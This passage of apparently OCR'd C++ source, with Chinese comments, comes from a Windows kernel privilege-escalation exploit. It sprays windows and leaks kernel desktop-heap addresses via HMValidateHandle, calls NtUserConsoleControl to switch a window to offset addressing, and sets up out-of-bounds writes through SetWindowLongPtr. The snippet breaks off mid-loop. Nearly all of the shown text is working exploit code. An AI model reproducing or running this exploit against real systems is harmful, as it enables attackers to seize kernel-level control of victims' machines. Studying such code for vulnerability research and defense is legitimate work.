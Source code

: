 ```cpp
        HMENU hHelpMenu = NULL;
 
        // 7.1 创建50个窗口，都绑定窗口类Class1，这样会在内核桌面堆中分配50块相同的空间保存窗口菜单、样式等信息
        //     1）通过 HMValidateHandle 可将tagWnd的内核地址泄漏出来
        //     2）窗口扩展内存默认是被分配在用户空间上的，而不是内核堆上
        for (int i = 0; i < 50; i++) {
            if (i == 1) {
                hMenu = CreateMenu();
                hHelpMenu = CreateMenu();
 
                AppendMenu(hHelpMenu, MF_STRING, 0x1888, TEXT("about"));
                AppendMenu(hMenu, MF_POPUP, (LONG)hHelpMenu, TEXT("help"));
            }
            g_hWnd[i] = CreateWindowEx(NULL, L"Class1", NULL, WS_VISIBLE, 0, 0, 1, 1, NULL, hMenu, hInstance, NULL);
            g_pWnd[i] = (ULONG_PTR)fHMValidateHandle(g_hWnd[i], 1); //Get leak kernel mapping desktop heap address
        }
        // end of 7.1
 
        // 7.2 释放掉后面48个窗口，只留前2个，窗口堆空间也会随之释放
        for (int i = 2; i < 50; i++) {
            if (g_hWnd[i] != NULL) {
                DestroyWindow((HWND)g_hWnd[i]);
            }
        }
        // end of 7.2
 
        // 7.3 获取前两个窗口的ptagWNDk相对于内核堆基址的偏移，在ptagWNDk+0x8的位置获取
        g_dwpWndKernel_heap_offset0 = *(ULONG_PTR*)((PBYTE)g_pWnd[0] + g_dwKernel_pWnd_offset);
        g_dwpWndKernel_heap_offset1 = *(ULONG_PTR*)((PBYTE)g_pWnd[1] + g_dwKernel_pWnd_offset);
        // end of 7.3
 
        // 7.4 调用NtUserConsoleControl后，窗口0会发生如下变化：
        //     1）dwExtraFlag上会被添加0x800，意味着启用偏移寻址
        //     2）重新在内核堆上分配窗口的扩展内存，并将相对于内核堆基址的偏移设置到pExtraBytes
        ULONG_PTR ChangeOffset = 0;
        ULONG_PTR ConsoleCtrlInfo[2] = { 0 };
        ConsoleCtrlInfo[0] = (ULONG_PTR)g_hWnd[0];
        ConsoleCtrlInfo[1] = (ULONG_PTR)ChangeOffset;
        NTSTATUS ret1 = g_fNtUserConsoleControl(6, (ULONG_PTR)&ConsoleCtrlInfo, sizeof(ConsoleCtrlInfo));
        // end of 7.4
 
        // 7.5 获取窗口0扩展内存的偏移pExtraBytes
        dwpWnd0_to_pWnd1_kernel_heap_offset = *(ULONGLONG*)((PBYTE)g_pWnd[0] + 0x128);
        // end of 7.5
 
        // 7.6 判断窗口0扩展内存的偏移是否比窗口1的ptagWNDk的偏移靠前
        //     1）后面要用 SetWindowLongPtr 越界读写窗口1数据，通过传入参数 nIndex，可以修改 ptagWNDk0->pExtraBytes+nIndex 位置指向的数据
        //     2）ptagWNDk0->pExtraBytes + dwpWnd0_to_pWnd1_kernel_heap_offset 的位置是 ptagWNDk1
        //     2）要求 nIndex >= 0，所以 ptagWNDk0->pExtraBytes < g_dwpWndKernel_heap_offset1 = ptagWNDK1 - kernel_heap_base_addr
        if (dwpWnd0_to_pWnd1_kernel_heap_offset < g_dwpWndKernel_heap_offset1) {
            dwpWnd0_to_pWnd1_kernel_heap_offset = (g_dwpWndKernel_heap_offset1 - dwpWnd0_to_pWnd1_kernel_heap_offset);
            break;
        }
        else {
            //:warning SetWindowLongPtr nIndex can't < 0; continue to try
            if (g_hWnd[0] != NULL) {
                DestroyWindow((HWND)g_hWnd[0]);
```